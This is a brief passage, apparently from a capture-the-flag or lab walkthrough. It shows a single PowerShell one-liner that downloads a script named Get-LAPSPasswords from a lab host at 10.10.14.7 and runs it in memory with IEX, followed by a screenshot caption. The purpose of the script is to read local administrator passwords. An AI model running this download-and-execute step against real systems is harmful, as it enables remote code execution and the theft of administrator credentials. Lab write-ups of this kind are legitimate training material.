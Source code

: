 ``` powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.7/Get-LAPSPasswords.ps1') Get-LAPSPasswords
```

![LAPS Script Execution](screenshots/LAPS_executed_in_legacyy_user.png)
